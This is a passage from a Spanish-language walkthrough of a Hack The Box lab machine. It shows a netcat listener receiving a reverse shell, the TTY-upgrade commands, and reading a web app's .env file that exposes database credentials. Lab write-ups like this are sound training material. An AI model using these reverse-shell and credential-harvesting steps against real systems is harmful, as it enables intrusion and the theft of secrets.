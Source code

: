 Escuchamos por **netcat**.

```
nc -lnvtp 1234

listening on [any] 1234 ...
connect to [10.10.14.48] from (UNKNOWN) [10.129.181.190] 50890
bash: cannot set terminal process group (1098): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$
```

Una vez nos llega la reverse shell, vamos a hacer el tratamiento de la TTY para trabajar más comodamente (esto es opcional pero bastante recomendable).

```
script /dev/null -c bash
```

Pulsamos `ctrl`+`z`

```
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Vamos a empezar listando los archivos del directorio de la web.

```
ls -la

total 56
drwxr-xr-x 10 root root 4096 Sep 29 11:00 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Sep 29 11:00 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
```

Vemos el archivo `.env`, donde se almacenan las variables de entorno (normalmente claves de base de datos u otros datos sensibles).

```
cat .env

DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```
